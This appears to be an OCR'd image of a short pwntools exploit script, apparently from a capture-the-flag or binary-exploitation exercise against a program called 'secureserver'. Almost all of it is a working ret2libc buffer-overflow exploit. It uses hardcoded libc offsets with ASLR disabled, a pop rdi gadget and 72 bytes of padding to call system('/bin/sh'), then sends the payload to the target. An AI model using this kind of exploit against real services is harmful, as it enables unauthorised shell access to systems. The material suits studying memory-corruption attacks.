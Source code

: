       
      # Binary filename
      exe = './secureserver'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Change logging level to help with debugging (error/warning/info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      io = start()
      
      # Lib-c offsets, found manually (ASLR_OFF)
      libc_base = 0x7ffff7dde000
      system = libc_base + 0x48e50
      binsh = libc_base + 0x18a152
      
      # POP RDI gadget (found with ropper)
      pop_rdi = 0x40120b
      
      # How many bytes to the instruction pointer (RIP)?
      padding = 72
      
      payload = flat(
          asm('nop') * padding,  # Padding up to RIP
          pop_rdi,  # Pop the following address into the RDI register
          binsh,  # Address of /bin/sh in libc (in the RDI register as parameter)
          system,  # Address of system function in libc (to be executed)
      )
      
      # Write payload to file
      write('payload', payload)
      
      # Exploit
      io.sendlineafter(b':', payload)
      